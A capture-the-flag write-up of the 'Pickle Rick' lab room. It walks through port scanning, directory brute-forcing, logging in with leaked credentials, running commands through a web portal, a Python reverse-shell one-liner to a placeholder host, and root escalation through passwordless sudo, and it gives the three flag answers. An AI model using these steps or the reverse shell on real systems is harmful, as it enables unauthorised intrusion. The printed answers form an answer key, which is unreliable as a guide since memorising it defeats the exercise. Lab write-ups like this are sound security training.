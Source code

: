 # Pickle Rick

```json
export ip=10.10.58.138
```

```
first step is to always run the nmap scans

nmap -p 0-9999 -oN scans/nmap_high_ports $ip
nmap -sC -sV -oN scans/nmap_normal $ip
```
```
looks like we have apache [80](webserver), ftp [21] and ssh [2222]running
```
```
we can see theres a robots.txt file which contains
"Wubbalubbadubdub" possibly a password?
```
```
always run gobuster after seeing apache is running and open

gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt +x php,sh,txt,cgi,html,js,css,py
```

```
if we view the page source of the webserver we can see rick has left a username for us
"Note to self, remember username!

    Username: R1ckRul3s"
```
```
if we go to /login.php we can try the username and password we possibly found
great it worked and it looks like we can execute commands from here
```
```
if we run ls we get 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

and it seems using cat is disabled
we need to find a way around that

lets try using "nl Sup3rS3cretPickl3Ingred.txt"
"mr. meeseek hair"

perfect
```
# 1. What is the first ingredient Rick needs?
```
answer: mr. meeseek hair 
```
```
lets see what clue.txt is
"Look around the file system for the other ingredient."

it looks like we can only run one liners however using the ; sign we can run multiple commands in one line

if we view the page source it looks like we have a base64 encoded string lets decode it
nothing useful there either
```
```
suppose we should try getting a shell however netcat is disabled
python on the other hand is working so lets get a python reverse shell
```
```json
export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

nc -lvnp YOUR_PORT (listener)
```
```
we now have a shell lets go look around
if we go to /home/rick and cat "second ingredient"
we find our second ingredient 
"1 jerry tear"
```
# 2. What is the second ingredient Rick needs?
```
answer: 1 jerry tear
```
```
im going to assume the last ingredient is probably in /root or needs root access because the last flag is usually always in root and a root shell in general is always better so lets upgrade our shell so we can privesc to root
```
```json
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z 
stty raw -echo
fg
```
always the first thing to do when your looking to privesc is to run sudo -l
in this cane we can sudo without a password on everything
so lets try running sudo "/bin/bash"
```
```
great we are now root! we can see that with id, whoami etc
so lets look around for the final ingredient
```
```
the final ingredient is /root/3rd.txt which we can use cat or nl to see what it is
1 fleeb juice
```
```
# 3. What is the third ingredient Rick needs?
```
answer: 1 fleeb juice
```

```json
Congratulations on completeing the room !
```
